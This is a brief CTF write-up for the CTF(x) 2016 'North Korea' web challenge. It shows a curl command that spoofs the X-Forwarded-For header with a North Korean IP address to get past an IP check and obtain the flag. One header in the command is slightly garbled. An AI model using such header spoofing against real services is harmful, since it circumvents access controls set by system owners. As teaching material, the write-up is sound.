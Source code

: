 ```yaml
---
title: "CTF(x) 2016 - North Korea (Web)"
header:
  overlay_image: /assets/images/ctfx2016/northkorea/header.jpg
  overlay_filter: 0.5
tags:
  - ctfx2016
  - writeup
  - web
---
```


Fake an originating IP address from North Korea using the `X-Forwarded-For`
header.

## Solution

Pretty easy challenge. We need to fake our originating IP address to the site
using the `X-Forwarded-For` header. Obviously, we should use an IP address
within the North Korean range.

```shell
amon@Evanna:~/ctf/ctfx/web/northkorea$ curl 'http://problems.ctfx.io:7002/code'  \
-H 'DNT: 1' -H 'Accept-Encoding: gzip, deflate, sdch' -H 'Accept-Languq=0.8,en-GB;q=0.6' \
-H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36' \
-H 'Accept: */*' -H 'Referer: http://problems.ctfx.io:7002/' \
-H 'X-Requested-With: XMLHttpRequest' \
-H 'Connection: keep-alive' --compressed -H 'X-Forwarded-For: 175.45.177.0'
ctf(jk_we_aint_got_n0_nuk35)
```

Flag: **ctf(jk\_we\_aint\_got\_n0\_nuk35)**
